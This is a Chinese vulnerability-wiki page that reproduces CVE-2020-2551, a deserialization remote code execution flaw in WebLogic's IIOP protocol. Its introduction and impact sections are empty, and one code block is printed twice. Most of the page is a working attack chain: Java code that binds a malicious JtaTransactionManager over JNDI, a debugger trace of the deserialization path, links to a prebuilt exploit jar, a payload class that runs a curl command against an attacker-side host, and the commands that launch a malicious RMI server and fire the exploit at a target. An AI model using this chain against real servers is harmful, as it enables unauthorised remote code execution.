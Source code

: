 （CVE-2020-2551）Weblogic CVE-2020-2551 IIOP协议反序列化rce
-----------------------------------------------------------

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求

    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);

    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);
    Hashtable<String, String> env = new Hashtable<String, String>();
    // add wlsserver/server/lib/weblogic.jar to classpath,else will error.
    env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
    env.put("java.naming.provider.url", rhost);
    Context context = new InitialContext(env);
    // get Object to Deserialize
    JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
    jtaTransactionManager.setUserTransactionName(rmiurl);

    Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
    context.rebind("Y4er"+System.nanoTime(), remote);

你肯定疑惑**JtaTransactionManager**和**weblogic.jndi.WLInitialContextFactory**是从哪来的？

1.  JtaTransactionManager是spring爆出的一个可以JNDI注入的类，在weblogic中也存在。
2.  weblogic.jndi.WLInitialContextFactory 是weblogic的JNDI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

**E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725**

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId25.png)

此时var2是序列化传入的**com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager**，跟进**readValue()**

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId26.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId27.png)

然后通过反射调用**JtaTransactionManager**的\*\*readObject()\*\*跟进

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId28.png)

到此之后就是Weblogic的CVE-2018-3191 spring
JNDI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进**initUserTransactionAndTransactionManager()**

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId29.png)

如果**userTransaction**等于空有**userTransactionName**属性则进入**lookupUserTransaction()**，跟进

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId30.png)

此时\*\*lookup()\*\*参数可控

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId31.png)

**lookup**加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用

### 漏洞复现

    https://github.com/ianxtianxt/CVE-2020-2551

**打包好的jar包**

    https://download.0-sec.org/download/weblogic_CVE_2020_2551.zip

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

    package payload;

    import java.io.IOException;

    public class exp {

        public exp() {
            String cmd = "curl http://172.16.1.1/success";
            try {
                Runtime.getRuntime().exec(cmd).getInputStream();
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

    python -m http.server --bind 0.0.0.0 80

命令行运行jar包

    java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp

实际效果如图

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-2551)WeblogicCVE-2020-2551IIOP协议反序列化rce/media/rId33.gif)

参考链接
--------

> https://y4er.com/post/weblogic-cve-2020-2551/
